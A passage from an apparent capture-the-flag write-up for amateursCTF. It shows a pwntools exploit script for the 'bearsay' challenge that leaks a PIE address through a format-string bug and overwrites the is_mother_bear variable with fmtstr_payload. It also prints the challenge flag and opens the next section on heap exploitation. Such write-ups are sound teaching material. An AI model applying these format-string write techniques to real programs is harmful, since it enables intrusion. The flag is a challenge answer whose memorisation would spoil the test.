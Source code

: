 ```python

# =========================================================
#                         EXPLOITS
# =========================================================
# Arch:     amd64-64-little
# RELRO:    Full RELRO
# Stack:    Canary found
# NX:       NX enabled
# PIE:      PIE enabled
# RUNPATH:  b'./lib'

def exploit():
    global io
    io = initialize()

    io.sendlineafter(b'say', b'%15$p')
    io.recvuntil(b'0x')
    
    leak = int(io.recvuntil(b' ', drop=True), 16)
    elf.address = leak - 0x1678
    
    payload = fmtstr_payload(22, {
        elf.sym['is_mother_bear']: 0xbad0bad
    })
    io.sendlineafter(b'say', payload)

    io.sendlineafter(b'say', b'flag')

    info('leak: %#x', leak)
    info('elf base: %#x', elf.address)
    info('mother bear: %#x', elf.sym['is_mother_bear'])
    io.interactive()
    
if __name__ == '__main__':
    exploit()
```
{% endcode %}

{% hint style="success" %}
**Flag:** _amateursCTF{bearsay\_mooooooooooooooooooo?}_
{% endhint %}

***

## heaps-of-fun

{% hint style="info" %}
the discussion below assumes you have some knowledge about the heap structure and dynamic memory allocator algorithm. If you're not familiar with it check out the external links and reading [here](../../resources/cyber-security/binary-exploitation/heap-exploitation.md#introduction) !
{% endhint %}
